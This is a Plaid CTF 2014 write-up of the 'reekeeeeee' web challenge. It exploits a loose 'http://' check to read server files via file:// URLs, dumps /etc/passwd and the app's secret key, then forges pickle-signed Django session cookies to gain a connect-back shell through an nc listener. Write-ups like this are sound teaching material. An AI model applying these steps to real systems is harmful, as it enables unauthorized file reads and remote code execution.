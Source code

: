 # reeekeeeeee
    Plaid CTF, 2014
    writeup by pipecork

Upon a hideously awesome flashing background, visiting the site prompts us to register an account. We create the user account 'les' and login. We're prompted to "make a meme" by supplying the URL to an image and some overlay text. Our created memes are then displayed on the page. While a fun activity on a Saturday night, we have a flag to find. Let's check the source for some vulns.

The file [views.py](reekee/mymeme/views.py) holds the meat of the application. We see they do a lot of concatenation of the username onto directory paths in the `viewmeme` function:

```python
def viewmeme(request,meme=None):
  print meme
  username = str(request.user)
  if meme is not None:
    filename = "/tmp/memes/"+username+"/"+str(meme)
    ctype = str(imghdr.what(filename))
    return HttpResponse(open(filename).read(),content_type="image/"+ctype)
  else:
    return render(request,"view.html",{'files':sorted(os.listdir("/tmp/memes/"+username), key=lambda x:os.path.getctime(bp+x) )})
  return HttpResponse("view"+username)
```

So a user's created memes are stored in `/tmp/memes/<username>` and the whole directory gets listed to display them. So, of course, let's make a user named `../..` right? Unfortunately, in the `register` function:

```python
. . .

if (".." in username) or ("/" in username):
  return HttpResponse("Error: invalid username"+BACK)

. . .
```

Drat. Eventually in a stroke of genius by mike_pizza, we spot small error in the code that downloads the meme image from a supplied URL:

```python
try:
  if "http://" in url:
    image = urllib2.urlopen(url)
  else:
    image = urllib2.urlopen("http://"+url)
```

The if statement only checks if the string 'http://' is in the supplied URL... not if it actually starts with it! We can use 'file://' with urllib's urlopen function to grab files from the server. Passing `file:///etc/passwd#http://` as a meme url confirms our suspicions by uploading the server's passwd file as one of our memes:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
admin:x:1000:1000:Debian:/home/admin:/bin/bash
reekee:x:1001:1001::/home/reekee:/bin/false
reekeeplus:x:1002:1002::/home/reekeeplus:/bin/false
``` 

Cool. Now where's the flag? There's a big clue in the [supplied settings.py file](reekee/mymeme/settings.py):

```python
. . .

#HMMMMM
SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'

. . .
```



Pickle with signed cookies is *notorious* for allowing remote code execution, provided that you have the Django app's secret key. Normally in a Django app like this one, we'd find the secret development key in the same file. Of course, the *real* secret key isn't in here. That'd make it too easy. 

After a bit of trial-and-error, we find the real settings.py file with `file:///home/reekee/mymeme/mymeme/settings.py#http://`. Lo and behold:

```python
...
SECRET_KEY='kgsu8jv!(bew#wm!eb3rb=7gy6=&5ew*jv)j-6-(50$f%no98-'
...
```

This is the secret key used to sign the SessionID that's then serialized by Pickle. Using this, we can forge custom SessionIDs to give us code execution!

This is where we have to give thanks to others before us (such as [Erik Romijn](http://erik.io/blog/2013/04/26/proof-of-concept-arbitrary-remote-code-execution-pickle-sessions/)) for their wonderful prior work on building PoC code to exploit this. Using their work saved us some serious time in solving this challenge.

First we start listening on a port on our machine, with `nc -lp 1337`. We used a [Django specific exploit](django-exploit.py) to send a Python [connect back shell](connback.py), which connects to our listening port, giving us a shell on the web server! Let's check the home directories:

```bash
$ cd /home/reekeeplus
$ ls
give_me_the_flag.exe  mymeme  use_exe_to_read_me.txt
$ ./give_me_the_flag.exe
flag: why_did_they_make_me_write_web_apps
write: Success
$
```

Bingo! The flag is `why_did_they_make_me_write_web_apps`.

(For those wondering why they required using an executable to read the flag: the challenge wanted to make sure you had execution on the server, and didn't just use the previous local file inclusion vuln to read the flag file.)

